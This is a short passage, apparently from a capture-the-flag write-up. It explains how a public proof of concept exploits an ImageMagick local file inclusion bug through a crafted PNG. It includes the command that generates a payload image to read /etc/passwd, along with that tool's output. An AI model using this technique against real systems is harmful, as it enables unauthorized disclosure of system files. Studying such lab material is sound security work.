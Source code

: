 [https://github.com/Sybil-Scan/imagemagick-lfi-poc](https://github.com/Sybil-Scan/imagemagick-lfi-poc)

When it parses a PNG image, the resulting image could have embedded the content of an arbitrary remote file if the ImageMagick binary has permissions to read it. So following the POC above I could read the content of the */etc/passwd* file :

```bash
python3 generate.py -f "/etc/passwd" -o exploit.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /etc/passwd
   [>] PoC PNG generated > exploit.png
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231110210421.png>)

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231110210432.png>)
